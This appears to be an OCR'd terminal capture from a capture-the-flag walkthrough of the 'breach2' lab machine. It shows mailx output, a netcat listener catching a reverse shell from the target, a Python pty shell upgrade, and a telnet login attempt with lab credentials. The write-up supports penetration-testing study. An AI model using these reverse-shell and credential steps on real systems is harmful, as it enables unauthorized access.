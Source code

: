 ```
 U1150 root@breach2       Sat Jun 25 12:05   27/1021  Cron <peter@breach2> cd /h
 U1151 root@breach2       Sat Jun 25 12:10   27/1021  Cron <peter@breach2> cd /h
 U1152 root@breach2       Sat Jun 25 12:15   27/1021  Cron <peter@breach2> cd /h
 U1153 root@breach2       Sat Jun 25 12:20   27/1021  Cron <peter@breach2> cd /h
 U1154 root@breach2       Sat Jun 25 12:25   27/1021  Cron <peter@breach2> cd /h
 U1155 root@breach2       Sat Jun 25 12:25   27/1022  Cron <peter@breach2> cd /h
>N1156 root@breach2       Sat Jun 25 12:30   26/1011  Cron <peter@breach2> cd /h
& ?
?
WARNING: terminal is not fully functional
/usr/share/bsd-mailx/mail.help  (press RETURN)
Mail Command                    Description
-------------------------       --------------------------------------------
t [message list]                type message(s).
more [message list]             read message(s), through the $PAGER
n                               goto and type next message.
e [message list]                edit message(s).
f [message list]                give head lines of messages.
d [message list]                delete message(s).
s [message list] <file>         append message(s) to file.
u [message list]                undelete message(s).
R [message list]                reply to message sender(s).
r [message list]                reply to message sender(s) and all recipients.
p [message list]                print message list.
pre [message list]              make messages go back to /var/mail.
m <recipient list>              mail to specific recipient(s).
q                               quit, saving unresolved messages in mbox.
x                               quit, do not remove system mailbox.
h                               print out active message headers.
!                               shell escape.
| [msglist] command             pipe message(s) to shell command.
pi [msglist] command            pipe message(s) to shell command.
cd [directory]                  chdir to directory or home if none given
fi <file>                       switch to file (%=system inbox, %user=user's
/usr/share/bsd-mailx/mail.help
                                system inbox).  + searches in your folder
:
                                directory for the file.
:q
& At EOF

## visit members page to trigger exploit. Then you have a shell:

oot@kali:~/.ssh# nc -lvp 4780
listening on [any] 4780 ...
192.168.110.151: inverse host lookup failed: Unknown host
connect to [192.168.110.128] from (UNKNOWN) [192.168.110.151] 35449
python -c 'import pty; pty.spawn("/bin/sh")'
$ telnet localhost 2323
telnet localhost 2323
Trying ::1...
Trying 127.0.0.1...
Connected to localhost.
Escape character is '^]'.
29 45'46" N 95 22'59" W 
breach2 login: milton
milton
Password: houston


Login incorrect
breach2 login: milton
milton
```